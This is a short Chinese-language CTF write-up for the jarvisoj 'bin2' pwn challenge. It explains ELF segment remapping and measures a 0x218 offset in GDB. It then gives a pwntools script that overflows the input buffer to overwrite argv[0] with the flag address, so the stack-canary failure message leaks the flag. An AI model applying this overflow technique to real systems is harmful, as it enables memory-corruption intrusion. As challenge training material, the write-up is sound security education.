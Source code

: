 <img src="/BypassCanary.assets/bin2_1.png"/>

这里有一个小trick：`ELF的重映射，当可执行文件足够小的时候，他的不同区段可能会被多次映射`

这就意味着flag可能不止存放在一个地址里，可以用GDB调试找到flag的地址


![](/BypassCanary.assets/bin2_2.png)

在 __IO_gets 下个断点，查看输入的地址和 argv[0] 的地址相差的距离 `0xde78-0xdc60=0X218`

![](/BypassCanary.assets/bin2_3.png) 知道了偏移就可以把 argv[0] 覆盖成存放 flag 的地址，从而读取 flag
```python
from pwn import *

#p=process("./bin2")
p=remote('pwn.jarvisoj.com',9877)
flag_addr=0x400d21

p.recvuntil("What's your name?")
payload='a'*0x218+p64(flag_addr)
p.sendline(payload)

p.recvuntil("Please overwrite the flag: ")
p.sendline("1")

p.interactive()
```
